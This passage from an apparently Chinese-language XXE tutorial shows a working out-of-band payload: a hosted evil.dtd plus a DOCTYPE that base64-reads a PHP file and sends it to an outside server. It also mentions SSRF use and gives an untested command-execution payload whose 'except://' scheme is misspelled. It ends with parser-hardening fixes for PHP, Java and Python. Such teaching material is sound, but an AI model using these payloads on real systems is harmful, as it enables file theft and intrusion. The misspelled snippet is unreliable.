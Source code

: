 事先在远程服务上写入 evil.dtd  （ % 需要实体编码成`&#x25;`
```xml
<!ENTITY &#x25; send SYSTEM 'http://xss.kingkk.com/?%file;'>
```
然后利用如下payload
```xml
<!DOCTYPE foo [
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./dom.php">
    <!ENTITY  % xxe SYSTEM "http://xss.kingkk.com/evil.dtd" >
    %xxe;
    %send;
]>
```
先利用php为协议将文件用base64读取出来，然后以参数的形式发送到远程服务器  
即可在服务器的log中看到base64加密后的内容  
![](简析XXE/5.png) 

## ssrf
由于有http协议，就能伪造请求，和ssrf同理，ssrf能做的事，xxe也都可以  
比如什么内网探测，sql注入等。这里就不过多介绍

## 命令执行
需要一个额外的expect拓展，需要额外安装  
```xml
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "except://ls">
]>
 &f;
```
没有实际测试过


# 防御XXE
最简单也最彻底的防御就是禁用外部实体  
php
```php
libxml_disable_entity_loader(true);
```
java
```java
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```
python
```py
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

过滤关键字的方法感觉有点傻，吃力不讨好



# Reference Link
https://github.com/vulhub/vulhub/tree/master/php/php_xxe
https://blog.csdn.net/com_ma/article/details/73277535
http://www.freebuf.com/column/156863.html
https://security.tencent.com/index.php/blog/msg/69
https://www.jianshu.com/p/7325b2ef8fc9
